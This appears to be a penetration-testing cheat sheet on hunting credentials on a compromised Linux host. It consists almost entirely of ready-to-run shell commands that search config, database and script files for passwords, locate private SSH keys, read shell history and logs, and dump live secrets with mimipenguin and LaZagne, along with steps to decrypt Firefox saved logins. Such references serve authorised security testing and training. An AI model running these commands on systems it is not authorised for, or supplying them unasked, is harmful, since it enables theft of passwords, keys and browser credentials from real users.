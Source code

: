 
## Target Areas

- **Files** → configs, scripts, notes, logs
    
- **History** → shell, command history
    
- **Memory** → running processes, in-memory creds
    
- **Keyrings** → browser stores, OS vaults
    

---

## Files

### Config Files

```
for l in $(echo ".conf .config .cnf"); do
  find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done
```

Search inside:

```
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib"); do
  grep "user\|password\|pass" $i 2>/dev/null | grep -v "#"
done
```

### Databases

```
for l in $(echo ".sql .db .*db .db*"); do
  find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man"
done
```

### Notes

```
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts

```
for l in $(echo ".py .pyc .pl .go .jar .c .sh"); do
  find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share"
done
```

### Cronjobs

```
cat /etc/crontab
ls -la /etc/cron.*/
```

### SSH Keys

Private:

```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

Public:

```
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

---

## History

Check shell history:

```
tail -n5 /home/*/.bash*
```

---

## Logs

Look for login/sudo activity:

```
for i in $(ls /var/log/* 2>/dev/null); do
  GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=" $i 2>/dev/null)
  if [[ $GREP ]]; then
    echo -e "\n#### Log file: $i"
    echo "$GREP"
  fi
done
```

---

## Memory (Live Creds)

### Mimipenguin (root required)

```
sudo python3 mimipenguin.py
```

### LaZagne

```
sudo python2.7 laZagne.py all
```

Targets: WiFi, Kwallet, Libsecret, Git, Env Vars, Docker, AWS, SSH, Shadow, KeePass, Chromium, Firefox, Thunderbird.

---

## Browsers

### Firefox

List profiles:

```
ls -l ~/.mozilla/firefox/ | grep default
```

Inspect logins:

```
cat ~/.mozilla/firefox/*default*/logins.json | jq .
```

Navigate:

```
cd ~/.mozilla/firefox/ytb95ytb.default-release
```

Decrypt:

```
python3.9 firefox_decrypt.py
```

---

